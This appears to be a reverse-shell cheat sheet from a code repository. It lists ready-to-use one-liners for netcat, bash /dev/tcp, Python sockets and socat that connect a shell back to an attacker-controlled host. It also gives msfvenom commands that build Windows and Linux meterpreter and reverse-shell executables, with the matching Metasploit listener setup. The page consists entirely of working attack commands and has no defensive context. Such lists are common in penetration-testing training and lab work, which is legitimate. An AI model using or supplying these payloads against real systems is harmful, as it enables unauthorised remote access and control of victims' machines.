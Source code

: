 ### Netcat
```
nc -e /bin/sh $IP $PORT
```

### Bash
```
bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
```

### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Socat
```
socat tcp-connect:192.168.0.5:4444 system:/bin/sh
```

## Meterpreter

### Windows 

#### Standard meterpreter

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f exe -o shell_reverse.exe
//attacker machine
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

### Windows meterpreter non-staged payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
//attacker machine
use exploit/multi/handler
set payload windows/shell_reverse_tcp

```

### Windows meterpreter staged payload

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
//attacker machine
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```


### Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
//attacker machine
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
```